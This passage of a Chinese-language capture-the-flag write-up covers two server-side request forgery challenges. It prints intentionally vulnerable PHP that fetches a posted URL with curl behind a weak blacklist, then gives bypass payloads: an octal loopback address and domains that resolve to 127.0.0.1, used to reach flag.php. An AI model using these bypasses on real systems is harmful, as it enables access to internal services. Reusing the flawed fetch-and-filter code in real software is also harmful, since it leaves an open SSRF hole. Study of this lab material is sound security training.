 ```php
}
else{
    die('hacker');
}
?> hacker
```

Payload:

```
url=http://0177.000.000.001/flag.php
```



### web354

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|1|0|。/i', $url)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> hacker
```

这里可以采用别的域名DNS解析到`127.0.0.1`

1. `ssrf.bx33661.com`(这个我自己设置的)
2. `http://sudo.cc`这个域名就是指向127.0.0.1

Payload：

```http
url=http://sudo.cc/flag.php
```



### web355
